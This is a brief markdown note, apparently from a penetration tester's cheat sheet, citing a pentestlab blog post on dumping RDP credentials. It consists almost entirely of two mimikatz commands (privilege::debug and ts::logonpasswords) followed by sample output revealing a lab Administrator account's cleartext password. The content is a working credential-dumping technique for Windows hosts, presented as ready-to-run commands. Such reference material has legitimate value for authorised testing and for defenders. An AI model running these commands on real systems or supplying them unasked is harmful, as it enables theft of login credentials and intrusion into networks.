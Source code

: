 ## [Reference](https://pentestlab.blog/2021/05/24/dumping-rdp-credentials/)

## Command:
```
mimikatz # privilege::debug
mimikatz # ts::logonpasswords
```

## Output:
```
!!! Warning: false positives can be listed !!!

   Domain      : LAB
   UserName    : Administrator
   Password/Pin: Abc123!!!
```